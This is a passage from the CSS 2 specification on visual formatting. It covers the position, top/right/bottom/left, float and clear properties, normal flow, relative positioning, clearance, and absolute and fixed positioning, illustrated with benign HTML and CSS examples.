2. [Floats](#css2:floats). In the float model, a box is first laid out according to the normal flow, then taken out of the flow and shifted to the left or right as far as possible. Content may flow along the side of a float.
3. [Absolute positioning](#css2:absolute-positioning). In the absolute positioning model, a box is removed from the normal flow entirely (it has no impact on later siblings) and assigned a position with respect to a containing block.

An element is called **out of flow** if it is floated, absolutely positioned, or is the root element. An element is called **in-flow** if it is not out-of-flow. The **flow of an element** *A* is the set consisting of *A* and all in-flow elements whose nearest out-of-flow ancestor is *A*.

> **Note:** ***Note.** CSS 2’s positioning schemes help authors make their documents more accessible by allowing them to avoid mark-up tricks (e.g., invisible images) used for layout effects.*

##### 9.3.1. Choosing a positioning scheme: `position` property {#css2:choose-position}

The `position` and `float` properties determine which of the CSS 2 positioning algorithms is used to calculate the position of a box.

| Field | Value |
| --- | --- |
| Name: | **position** |
| [Value:](#css-values-4:value-defs) | static \| relative \| absolute \| fixed \| inherit |
| [Initial:](#css-cascade-6:initial-values) | static |
| [Applies to:](#css-cascade-5:applies-to) | * |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The values of this property have the following meanings:

****static****

: The box is a normal box, laid out according to the [normal flow](#css2:normal-flow). The `top`, `right`, `bottom`, and `left` properties do not apply.

****relative****

: The box’s position is calculated according to the [normal flow](#css2:normal-flow) (this is called the position in normal flow). Then the box is offset [relative](#css2:relative-positioning) to its normal position. When a box B is relatively positioned, the position of the following box is calculated as though B were not offset. The effect of `position:relative` on table-row-group, table-header-group, table-footer-group, table-row, table-column-group, table-column, table-cell, and table-caption elements is undefined.

****absolute****

: The box’s position (and possibly size) is specified with the `top`, `right`, `bottom`, and `left` properties. These properties specify offsets with respect to the box’s [containing block](#css2:containing-block). Absolutely positioned boxes are taken out of the normal flow. This means they have no impact on the layout of later siblings. Also, though absolutely positioned boxes have margins, they do not [collapse](#css2:collapsing-margins) with any other margins.

****fixed****

: The box’s position is calculated according to the `absolute` model, but in addition, the box is [fixed](#css2:fixed-positioning) with respect to some reference. As with the `absolute` model, the box’s margins do not collapse with any other margins. In the case of handheld, projection, screen, tty, and tv media types, the box is fixed with respect to the [viewport](#css2:viewport) and does not move when scrolled. In the case of the print media type, the box is rendered on every page, and is fixed with respect to the page box, even if the page is seen through a [viewport](#css2:viewport) (in the case of a print-preview, for example). For other media types, the presentation is undefined. Authors may wish to specify `fixed` in a media-dependent way. For instance, an author may want a box to remain at the top of the [viewport](#css2:viewport) on the screen, but not at the top of each printed page. The two specifications may be separated by using an [@media rule](#css2:at-media-rule), as in:

  > **Example:** ```css
  > @media screen {
  >   h1#first { position: fixed }
  > }
  > @media print {
  >   h1#first { position: static }
  > }
  > ```

  UAs must not paginate the content of fixed boxes. Note that UAs may print invisible content in other ways. See ["Content outside the page box"](#css2:outside-page-box) in chapter 13.

User agents may treat position as `static` on the root element.

##### 9.3.2. Box offsets: `top`, `right`, `bottom`, `left` {#css2:position-props}

An element is said to be **positioned** if its `position` property has a value other than `static`. Positioned elements generate positioned boxes, laid out according to four properties:

| Field | Value |
| --- | --- |
| Name: | **top** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to height of containing block |
| [Computed value:](#css-cascade-6:computed) | if specified as a length, the corresponding absolute length; if specified as a percentage, the specified value; otherwise, `auto`. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies how far an absolutely positioned box’s top margin edge is offset below the top edge of the box’s [containing block](#css2:containing-block). For relatively positioned boxes, the offset is with respect to the top edges of the box itself (i.e., the box is given a position in the normal flow, then offset from that position according to these properties).

| Field | Value |
| --- | --- |
| Name: | **right** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | if specified as a length, the corresponding absolute length; if specified as a percentage, the specified value; otherwise, `auto`. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

Like `top`, but specifies how far a box’s right margin edge is offset to the left of the right edge of the box’s [containing block](#css2:containing-block). For relatively positioned boxes, the offset is with respect to the right edge of the box itself.

| Field | Value |
| --- | --- |
| Name: | **bottom** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to height of containing block |
| [Computed value:](#css-cascade-6:computed) | if specified as a length, the corresponding absolute length; if specified as a percentage, the specified value; otherwise, `auto`. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

Like `top`, but specifies how far a box’s bottom margin edge is offset above the bottom of the box’s [containing block](#css2:containing-block). For relatively positioned boxes, the offset is with respect to the bottom edge of the box itself.

| Field | Value |
| --- | --- |
| Name: | **left** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | if specified as a length, the corresponding absolute length; if specified as a percentage, the specified value; otherwise, `auto`. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

Like `top`, but specifies how far a box’s left margin edge is offset to the right of the left edge of the box’s [containing block](#css2:containing-block). For relatively positioned boxes, the offset is with respect to the left edge of the box itself.

The values for the four properties have the following meanings:

****`<length>`****

: The offset is a fixed distance from the reference edge. Negative values are allowed.

****`<percentage>`****

: The offset is a percentage of the containing block’s width (for `left` or `right`) or height (for `top` and `bottom`). Negative values are allowed.

****auto****

: For non-replaced elements, the effect of this value depends on which of related properties have the value `auto` as well. See the sections on the [width](#css2:abs-non-replaced-width) and [height](#css2:abs-non-replaced-height) of absolutely positioned, non-replaced elements for details. For replaced elements, the effect of this value depends only on the intrinsic dimensions of the replaced content. See the sections on the [width](#css2:abs-replaced-width) and [height](#css2:abs-replaced-height) of absolutely positioned, replaced elements for details.

#### 9.4. Normal flow {#css2:normal-flow}

Boxes in the normal flow belong to a **formatting context**, which may be block or inline, but not both simultaneously. Block-level boxes participate in a [block formatting](#css2:block-formatting) context. Inline-level boxes participate in an [inline formatting](#css2:inline-formatting) context.

##### 9.4.1. Block formatting contexts {#css2:block-formatting}

Floats, absolutely positioned elements, block containers (such as inline-blocks, table-cells, and table-captions) that are not block boxes, and block boxes with `overflow` other than `visible` (except when that value has been propagated to the viewport) establish new block formatting contexts for their contents.

In a block formatting context, boxes are laid out one after the other, vertically, beginning at the top of a containing block. The vertical distance between two sibling boxes is determined by the `margin` properties. Vertical margins between adjacent block-level boxes in a block formatting context [collapse](#css2:collapsing-margins).

In a block formatting context, each box’s left outer edge touches the left edge of the containing block (for right-to-left formatting, right edges touch). This is true even in the presence of floats (although a box’s *line boxes* may shrink due to the floats), unless the box establishes a new block formatting context (in which case the box itself [*may* become narrower](#css2:bfc-next-to-float) due to the floats).

For information about page breaks in paged media, please consult the section on [allowed page breaks](#css2:allowed-page-breaks).

##### 9.4.2. Inline formatting contexts {#css2:inline-formatting}

In an inline formatting context, boxes are laid out horizontally, one after the other, beginning at the top of a containing block. Horizontal margins, borders, and padding are respected between these boxes. The boxes may be aligned vertically in different ways: their bottoms or tops may be aligned, or the baselines of text within them may be aligned. The rectangular area that contains the boxes that form a line is called a **line box**.

The width of a line box is determined by a [containing block](#css2:containing-block) and the presence of floats. The height of a line box is determined by the rules given in the section on [line height calculations](#css2:line-height).

A line box is always tall enough for all of the boxes it contains. However, it may be taller than the tallest box it contains (if, for example, boxes are aligned so that baselines line up). When the height of a box B is less than the height of the line box containing it, the vertical alignment of B within the line box is determined by the `vertical-align` property. When several inline-level boxes cannot fit horizontally within a single line box, they are distributed among two or more vertically-stacked line boxes. Thus, a paragraph is a vertical stack of line boxes. Line boxes are stacked with no vertical separation (except as specified elsewhere) and they never overlap.

In general, the left edge of a line box touches the left edge of its containing block and the right edge touches the right edge of its containing block. However, floating boxes may come between the containing block edge and the line box edge. Thus, although line boxes in the same inline formatting context generally have the same width (that of the containing block), they may vary in width if available horizontal space is reduced due to [floats](#css2:floats). Line boxes in the same inline formatting context generally vary in height (e.g., one line might contain a tall image while the others contain only text).

When the total width of the inline-level boxes on a line is less than the width of the line box containing them, their horizontal distribution within the line box is determined by the `text-align` property. If that property has the value `justify`, the user agent may stretch spaces and words in inline boxes (but not inline-table and inline-block boxes) as well.

When an inline box exceeds the width of a line box, it is split into several boxes and these boxes are distributed across several line boxes. If an inline box cannot be split (e.g., if the inline box contains a single character, or language specific word breaking rules disallow a break within the inline box, or if the inline box is affected by a white-space value of nowrap or pre), then the inline box overflows the line box.

When an inline box is split, margins, borders, and padding have no visual effect where the split occurs (or at any split, when there are several).

Inline boxes may also be split into several boxes *within the same line box* due to [bidirectional text processing](#css2:direction).

Line boxes are created as needed to hold inline-level content within an inline formatting context. Line boxes that contain no text, no [preserved white space,](#css2:white-space-prop) no inline elements with non-zero margins, padding, or borders, and no other [in-flow](#css2:positioning-scheme) content (such as images, inline blocks or inline tables), and do not end with a preserved newline must be treated as zero-height line boxes for the purposes of determining the positions of any elements inside of them, and must be treated as not existing for any other purpose.

> **Example:** Here is an example of inline box construction. The following paragraph (created by the HTML block-level element P) contains anonymous text interspersed with the elements EM and STRONG:
>
> ```html
> <P>Several <EM>emphasized words</EM> appear
> <STRONG>in this</STRONG> sentence, dear.</P>
> ```
>
> The P element generates a block box that contains five inline boxes, three of which are anonymous:
>
> - Anonymous: "Several"
> - EM: "emphasized words"
> - Anonymous: "appear"
> - STRONG: "in this"
> - Anonymous: "sentence, dear."
>
> To format the paragraph, the user agent flows the five boxes into line boxes. In this example, the box generated for the P element establishes the containing block for the line boxes. If the containing block is sufficiently wide, all the inline boxes will fit into a single line box:
>
> ```
> Several emphasized words appear in this sentence, dear.
> ```
>
> If not, the inline boxes will be split up and distributed across several line boxes. The previous paragraph might be split as follows:
>
> ```
> Several emphasized words appear
> in this sentence, dear.
> ```
>
> or like this:
>
> ```
> Several emphasized
> words appear in this
> sentence, dear.
> ```

In the previous example, the EM box was split into two EM boxes (call them "split1" and "split2"). Margins, borders, padding, or text decorations have no visible effect after split1 or before split2.

> **Example:** Consider the following example:
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <HEAD>
>     <TITLE>Example of inline flow on several lines</TITLE>
>     <STYLE type="text/css">
>       EM {
>         padding: 2px;
>         margin: 1em;
>         border-width: medium;
>         border-style: dashed;
>         line-height: 2.4em;
>       }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <P>Several <EM>emphasized words</EM> appear here.</P>
>   </BODY>
> </HTML>
> ```
>
> Depending on the width of the P, the boxes may be distributed as follows:
>
> 
>
> - The margin is inserted before "emphasized" and after "words".
> - The padding is inserted before, above, and below "emphasized" and after, above, and below "words". A dashed border is rendered on three sides in each case.

##### 9.4.3. Relative positioning {#css2:relative-positioning}

Once a box has been laid out according to the [normal flow](#css2:normal-flow) or floated, it may be shifted relative to this position. This is called **relative positioning**. Offsetting a box (B1) in this way has no effect on the box (B2) that follows: B2 is given a position as if B1 were not offset and B2 is not re-positioned after B1’s offset is applied. This implies that relative positioning may cause boxes to overlap. However, if relative positioning causes an `overflow:auto` or `overflow:scroll` box to have overflow, the UA must allow the user to access this content (at its offset position), which, through the creation of scrollbars, may affect layout.

A relatively positioned box keeps its normal flow size, including line breaks and the space originally reserved for it. The section on [containing blocks](#css2:containing-block) explains when a relatively positioned box establishes a new containing block.

For relatively positioned elements, `left` and `right` move the box(es) horizontally, without changing their size. `left` moves the boxes to the right, and `right` moves them to the left. Since boxes are not split or stretched as a result of `left` or `right`, the used values are always: left = -right.

If both `left` and `right` are `auto` (their initial values), the used values are `0` (i.e., the boxes stay in their original position).

If `left` is `auto`, its used value is minus the value of `right` (i.e., the boxes move to the left by the value of `right`).

If `right` is specified as `auto`, its used value is minus the value of `left`.

If neither `left` nor `right` is `auto`, the position is over-constrained, and one of them has to be ignored. If the `direction` property of the containing block is `ltr`, the value of `left` wins and `right` becomes -`left`. If `direction` of the containing block is `rtl`, `right` wins and `left` is ignored.

> **Example:** **Example.** The following three rules are equivalent:
>
> ```css
> div.a8 { position: relative; direction: ltr; left: -1em; right: auto }
> div.a8 { position: relative; direction: ltr; left: auto; right: 1em }
> div.a8 { position: relative; direction: ltr; left: -1em; right: 5em }
> ```

The `top` and `bottom` properties move relatively positioned element(s) up or down without changing their size. `top` moves the boxes down, and `bottom` moves them up. Since boxes are not split or stretched as a result of `top` or `bottom`, the used values are always: top = -bottom. If both are `auto`, their used values are both `0`. If one of them is `auto`, it becomes the negative of the other. If neither is `auto`, `bottom` is ignored (i.e., the used value of `bottom` will be minus the value of `top`).

> **Note:** . Dynamic movement of relatively positioned boxes can produce animation effects in scripting environments (see also the `visibility` property). Although relative positioning may be used as a form of superscripting and subscripting, the line height is not automatically adjusted to take the positioning into consideration. See the description of [line height calculations](#css2:line-height) for more information.

Examples of relative positioning are provided in the section [comparing normal flow, floats, and absolute positioning](#css2:comparison).

#### 9.5. Floats {#css2:floats}

A float is a box that is shifted to the left or right on the current line. The most interesting characteristic of a float (or "floated" or "floating" box) is that content may flow along its side (or be prohibited from doing so by the `clear` property). Content flows down the right side of a left-floated box and down the left side of a right-floated box. The following is an introduction to float positioning and content flow; the exact rules governing float behavior are given in the description of the `float` property.

A floated box is shifted to the left or right until its outer edge touches the containing block edge or the outer edge of another float. If there is a line box, the outer top of the floated box is aligned with the top of the current line box.

If there is not enough horizontal room for the float, it is shifted downward until either it fits or there are no more floats present.

Since a float is not in the flow, non-positioned block boxes created before and after the float box flow vertically as if the float did not exist. However, the current and subsequent line boxes created next to the float are shortened as necessary to make room for the margin box of the float.

A line box is next to a float when there exists a vertical position that satisfies all of these four conditions: (a) at or below the top of the line box, (b) at or above the bottom of the line box, (c) below the top margin edge of the float, and (d) above the bottom margin edge of the float.

> **Note:** this means that floats with zero outer height or negative outer height do not shorten line boxes.

If a shortened line box is too small to contain any content, then the line box is shifted downward (and its width recomputed) until either some content fits or there are no more floats present. Any content in the current line before a floated box is reflowed in the same line on the other side of the float. In other words, if inline-level boxes are placed on the line before a left float is encountered that fits in the remaining line box space, the left float is placed on that line, aligned with the top of the line box, and then the inline-level boxes already on the line are moved accordingly to the right of the float (the right being the other side of the left float) and vice versa for rtl and right floats.

The border box of a table, a block-level replaced element, or an element in the normal flow that establishes a new [block formatting context](#css2:block-formatting) (such as an element with `overflow` other than `visible`) must not overlap the margin box of any floats in the same block formatting context as the element itself. If necessary, implementations should clear the said element by placing it below any preceding floats, but may place it adjacent to such floats if there is sufficient space. They may even make the border box of said element narrower than defined by [section 10.3.3.](#css2:blockwidth) CSS 2 does not define when a UA may put said element next to the float or by how much said element may become narrower.

> **Example:** **Example.** In the following document fragment, the containing block is too narrow to contain the content next to the float, so the content gets moved to below the floats where it is aligned in the line box according to the text-align property.
>
> ```css
> p { width: 10em; border: solid aqua; }
> span { float: left; width: 5em; height: 5em; border: solid blue; }
>
>
> ...
>
>
> <p>
>   <span> </span>
>   Supercalifragilisticexpialidocious
> </p>
> ```
>
> This fragment might look like this:
>
> 

Several floats may be adjacent, and this model also applies to adjacent floats in the same line.

> **Example:** The following rule floats all IMG boxes with `class="icon"` to the left (and sets the left margin to `0`):
>
> ```css
> img.icon {
>   float: left;
>   margin-left: 0;
> }
> ```

> **Example:** Consider the following HTML source and style sheet:
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <HEAD>
>     <TITLE>Float example</TITLE>
>     <STYLE type="text/css">
>       IMG { float: left }
>       BODY, P, IMG { margin: 2em }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <P>
>        Some sample text that has no other...
>   </BODY>
> </HTML>
> ```
>
> The IMG box is floated to the left. The content that follows is formatted to the right of the float, starting on the same line as the float. The line boxes to the right of the float are shortened due to the float’s presence, but resume their "normal" width (that of the containing block established by the P element) after the float. This document might be formatted as:
>
> 
>
> Formatting would have been exactly the same if the document had been:
>
> ```html
> <BODY>
>   <P>Some sample text
>   
>            that has no other...
> </BODY>
> ```
>
> because the content to the left of the float is displaced by the float and reflowed down its right side.

As stated in [section 8.3.1](#css2:collapsing-margins), the margins of floating boxes never [collapse](#css2:collapsing-margins) with margins of adjacent boxes. Thus, in the previous example, vertical margins do not [collapse](#css2:collapsing-margins) between the P box and the floated IMG box.

The contents of floats are stacked as if floats generated new stacking contexts, except that any positioned elements and elements that actually create new stacking contexts take part in the float’s parent stacking context. A float can overlap other boxes in the normal flow (e.g., when a normal flow box next to a float has negative margins). When this happens, floats are rendered in front of non-positioned in-flow blocks, but behind in-flow inlines.

> **Example:** Here is another illustration, showing what happens when a float overlaps borders of elements in the normal flow.
>
> 
>
> A floating image obscures borders of block boxes it overlaps.

The following example illustrates the use of the `clear` property to prevent content from flowing next to a float.

> **Example:** Assuming a rule such as this:
>
> ```css
> p { clear: left }
> ```
>
> formatting might look like this:
>
> 
>
> Both paragraphs have set 'clear: left', which causes the second paragraph to be "pushed down" to a position below the float — "clearance" is added above its top margin to accomplish this (see the `clear` property).

##### 9.5.1. Positioning the float: the `float` property {#css2:float-position}

| Field | Value |
| --- | --- |
| Name: | **float** |
| [Value:](#css-values-4:value-defs) | left \| right \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all, but see {visuren.html#dis-pos-flo}9.7{} |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies whether a box should float to the left, right, or not at all. It may be set for any element, but only applies to elements that generate boxes that are not absolutely positioned. The values of this property have the following meanings:

****left****

: The element generates a [block](#css2:block-boxes) box that is floated to the left. Content flows on the right side of the box, starting at the top (subject to the `clear` property).

****right****

: Similar to `left`, except the box is floated to the right, and content flows on the left side of the box, starting at the top.

****none****

: The box is not floated.

User agents may treat float as `none` on the root element.

**Here are the precise rules** that govern the behavior of floats:

1. The left outer edge of a left-floating box may not be to the left of the left edge of its [containing block](#css2:containing-block). An analogous rule holds for right-floating elements.
2. If the current box is left-floating, and there are any left-floating boxes generated by elements earlier in the source document, then for each such earlier box, either the left outer edge of the current box must be to the right of the right outer edge of the earlier box, or its top must be lower than the bottom of the earlier box. Analogous rules hold for right-floating boxes.
3. The right outer edge of a left-floating box may not be to the right of the left outer edge of any right-floating box that is next to it. Analogous rules hold for right-floating elements.
4. A floating box’s outer top may not be higher than the top of its [containing block](#css2:containing-block). When the float occurs between two collapsing margins, the float is positioned as if it had an otherwise empty [anonymous block parent](#css2:anonymous-block-level) taking part in the flow. The position of such a parent is defined by [the rules](#css2:collapsed-through) in the section on margin collapsing.
5. The outer top of a floating box may not be higher than the outer top of any [block](#css2:block-boxes) or [floated](#css2:floats) box generated by an element earlier in the source document.
6. The outer top of an element’s floating box may not be higher than the top of any line-box containing a box generated by an element earlier in the source document.
7. A left-floating box that has another left-floating box to its left may not have its right outer edge to the right of its containing block’s right edge. (Loosely: a left float may not stick out at the right edge, unless it is already as far to the left as possible.) An analogous rule holds for right-floating elements.
8. A floating box must be placed as high as possible.
9. A left-floating box must be put as far to the left as possible, a right-floating box as far to the right as possible. A higher position is preferred over one that is further to the left/right.

But in CSS 2, if, within the block formatting context, there is an in-flow negative vertical margin such that the float’s position is above the position it would be at were all such negative margins set to zero, the position of the float is undefined.

References to other elements in these rules refer only to other elements in the same [block formatting context](#css2:block-formatting) as the float.

> **Example:** This HTML fragment results in the b floating to the right.
>
> ```xml
> <P>a<SPAN style="float: right">b</SPAN></P>
> ```
>
> If the P element’s width is enough, the a and the b will be side by side. It might look like this:
>
> 

##### 9.5.2. Controlling flow next to floats: the `clear` property {#css2:flow-control}

| Field | Value |
| --- | --- |
| Name: | **clear** |
| [Value:](#css-values-4:value-defs) | none \| left \| right \| both \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property indicates which sides of an element’s box(es) may *not* be adjacent to an earlier floating box. The `clear` property does not consider floats inside the element itself or in other [block formatting contexts.](#css2:block-formatting)

Values have the following meanings when applied to non-floating block-level boxes:

****left****

: Requires that the top border edge of the box be below the bottom outer edge of any left-floating boxes that resulted from elements earlier in the source document.

****right****

: Requires that the top border edge of the box be below the bottom outer edge of any right-floating boxes that resulted from elements earlier in the source document.

****both****

: Requires that the top border edge of the box be below the bottom outer edge of any right-floating and left-floating boxes that resulted from elements earlier in the source document.

****none****

: No constraint on the box’s position with respect to floats.

Values other than `none` potentially introduce **clearance**. Clearance inhibits margin collapsing and acts as spacing above the margin-top of an element. It is used to push the element vertically past the float.

Computing the clearance of an element on which `clear` is set is done by first determining the hypothetical position of the element’s top border edge. This position is where the actual top border edge would have been if the element’s `clear` property had been `none`.

If this hypothetical position of the element’s top border edge is not past the relevant floats, then clearance is introduced, and margins collapse according to the rules in 8.3.1.

Then the amount of clearance is set to the greater of:

1. The amount necessary to place the border edge of the block even with the bottom outer edge of the lowest float that is to be cleared.
2. The amount necessary to place the top border edge of the block at its hypothetical position.

Alternatively, clearance is set exactly to the amount necessary to place the border edge of the block even with the bottom outer edge of the lowest float that is to be cleared.

> **Note:** ***Note:** Both behaviors are allowed pending evaluation of their compatibility with existing Web content. A future CSS specification will require either one or the other.*

> **Note:** The clearance can be negative or zero.

> **Example:** 1. Assume (for the sake of simplicity), that we have just three boxes, in this order: block B1 with a bottom margin of M1 (B1 has no children and no padding or border), floating block F with a height H, and block B2 with a top margin of M2 (no padding or border, no children). B2 has `clear` set to `both`. We also assume B2 is not empty.
>
> Without considering the `clear` property on B2, we have the situation in the diagram below. The margins of B1 and B2 collapse. Let’s say the bottom border edge of B1 is at y = 0, then the top of F is at y = M1, the top border edge of B2 is at y = max(M1,M2), and the bottom of F is at y = M1 + H.
>
> 
>
> We also assume that B2 is not below F, i.e., we are in the situation described in the spec where we need to add clearance. That means:
>
> > max(M1,M2) < M1 + H
>
> We need to compute clearance C twice, C1 and C2, and keep the greater of the two: C = max(C1,C2). The first way is to put the top of B2 flush with the bottom of F, i.e., at y = M1 + H. That means, because the margins no longer collapse with a clearance between them:
>
> > bottom of F = top border edge of B2 ⇔
> >
> > M1 + H = M1 + C1 + M2 ⇔
> >
> > C1 = M1 + H - M1 - M2
> >
> > = H - M2
>
> The second computation is to keep the top of B2 where it is, i.e., at y = max(M1,M2). That means:
>
> > max(M1,M2) = M1 + C2 + M2 ⇔
> >
> > C2 = max(M1,M2) - M1 - M2
>
> We assumed that max(M1,M2) < M1 + H, which implies
>
> > C2 = max(M1,M2) - M1 - M2 < M1 + H - M1 - M2 = H - M2 ⇒
> >
> > C2 < H - M2
>
> And, as C1 = H - M2, it follows that
>
> > C2 < C1
>
> and hence
>
> > C = max(C1,C2) = C1

> **Example:** 2. An example of negative clearance is this situation, in which the clearance is -1em. (Assume none of the elements have borders or padding):
>
> ```html
> <p style="margin-bottom: 4em">
>   First paragraph.
>
> <p style="float: left; height: 2em; margin: 0">
>   Floating paragraph.
>
> <p style="clear: left; margin-top: 3em">
>   Last paragraph.
> ```
>
> Explanation: Without the `clear`, the first and last paragraphs' margins would collapse and the last paragraph’s top border edge would be flush with the top of the floating paragraph. But the `clear` requires the top border edge to be *below* the float, i.e., 2em lower. This means that clearance must be introduced. Accordingly, the margins no longer collapse and the amount of clearance is set so that clearance + margin-top = 2em, i.e., clearance = 2em - margin-top = 2em \- 3em = -1em.

When the property is set on floating elements, it results in a modification of the rules for positioning the float. An extra constraint (#10) is added:

- The top outer edge of the float must be below the bottom outer edge of all earlier left-floating boxes (in the case of 'clear: left'), or all earlier right-floating boxes (in the case of 'clear: right'), or both ('clear: both').

> **Note:** ***Note.** This property [applied to all elements in CSS1](https://www.w3.org/TR/REC-CSS1#clear). Implementations may therefore have supported this property on all elements. In CSS2 (1998) and CSS 2 the `clear` property only applies to block-level elements. Therefore authors should only use this property on block-level elements. If an implementation does support clear on inline elements, rather than setting a clearance as explained above, the implementation should force a break and effectively insert one or more empty line boxes (or shifting the new line box downward as described in [section 9.5](#css2:floats)) to move the top of the cleared inline’s line box to below the respective floating box(es).*

#### 9.6. Absolute positioning {#css2:absolute-positioning}

In the absolute positioning model, a box is explicitly offset with respect to its containing block. It is removed from the normal flow entirely (it has no impact on later siblings). An absolutely positioned box establishes a new containing block for normal flow children and absolutely (but not fixed) positioned descendants. However, the contents of an absolutely positioned element do not flow around any other boxes. They may obscure the contents of another box (or be obscured themselves), depending on the stack levels of the overlapping boxes.

References in this specification to an  **absolutely positioned element** (or its box) imply that the element’s `position` property has the value `absolute` or `fixed`.

##### 9.6.1. Fixed positioning {#css2:fixed-positioning}

Fixed positioning is a subcategory of absolute positioning. The only difference is that for a fixed positioned box, the containing block is established by the [viewport](#css2:viewport). For continuous media, fixed boxes do not move when the document is scrolled. In this respect, they are similar to [fixed background images](#css2:background-properties). For [paged media](#css2:the-page), boxes with fixed positions are repeated on every page. This is useful for placing, for instance, a signature at the bottom of each page. Boxes with fixed position that are larger than the page area are clipped. Parts of the fixed position box that are not visible in the initial containing block will not print.

> **Example:** Authors may use fixed positioning to create frame-like presentations. Consider the following frame layout:
>
> 
>
> This might be achieved with the following HTML document and style rules:
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <HEAD>
>     <TITLE>A frame document with CSS 2</TITLE>
>     <STYLE type="text/css" media="screen">
>       BODY { height: 8.5in } /* Required for percentage heights below */
>       #header {
>         position: fixed;
>         width: 100%;
>         height: 15%;
>         top: 0;
>         right: 0;
>         bottom: auto;
>         left: 0;
>       }
>       #sidebar {
>         position: fixed;
>         width: 10em;
>         height: auto;
>         top: 15%;
>         right: auto;
>         bottom: 100px;
>         left: 0;
>       }
>       #main {
>         position: fixed;
>         width: auto;
>         height: auto;
>         top: 15%;
>         right: 0;
>         bottom: 100px;
>         left: 10em;
>       }
>       #footer {
>         position: fixed;
>         width: 100%;
>         height: 100px;
>         top: auto;
>         right: 0;
>         bottom: 0;
>         left: 0;
>       }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <DIV id="header"> ...  </DIV>
>     <DIV id="sidebar"> ...  </DIV>
>     <DIV id="main"> ...  </DIV>
>     <DIV id="footer"> ...  </DIV>
>   </BODY>
> </HTML>
> ```

#### 9.7. Relationships between `display`, `position`, and `float` {#css2:dis-pos-flo}

The three properties that affect box generation and layout — `display`, `position`, and `float` — interact as follows:

1. If `display` has the value `none`, then `position` and `float` do not apply. In this case, the element generates no box.
2. Otherwise, if `position` has the value `absolute` or `fixed`, the box is absolutely positioned, the computed value of `float` is `none`, and display is set according to the table below. The position of the box will be determined by the `top`, `right`, `bottom` and `left` properties and the box’s containing block.
3. Otherwise, if `float` has a value other than `none`, the box is floated and `display` is set according to the table below.
4. Otherwise, if the element is the root element, `display` is set according to the table below, except that it is undefined in CSS 2 whether a specified value of `list-item` becomes a computed value of `block` or `list-item`.
5. Otherwise, the remaining `display` property values apply as specified.

| Specified value | Computed value |
| --- | --- |
| inline-table | table |
| inline, table-row-group, table-column, table-column-group, table-header-group, table-footer-group, table-row, table-cell, table-caption, inline-block | block |
| others | same as specified |

#### 9.8. Comparison of normal flow, floats, and absolute positioning {#css2:comparison}

To illustrate the differences between normal flow, relative positioning, floats, and absolute positioning, we provide a series of examples based on the following HTML:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Comparison of positioning schemes</TITLE>
  </HEAD>
  <BODY>
    <P>Beginning of body contents.
      <SPAN id="outer"> Start of outer contents.
      <SPAN id="inner"> Inner contents.</SPAN>
      End of outer contents.</SPAN>
      End of body contents.
    </P>
  </BODY>
</HTML>
```

In this document, we assume the following rules:

```css
body { display: block; font-size:12px; line-height: 200%;
       width: 400px; height: 400px }
p    { display: block }
span { display: inline }
```

The final positions of boxes generated by the *outer* and *inner* elements vary in each example. In each illustration, the numbers to the left of the illustration indicate the [normal flow](#css2:normal-flow) position of the double-spaced (for clarity) lines.

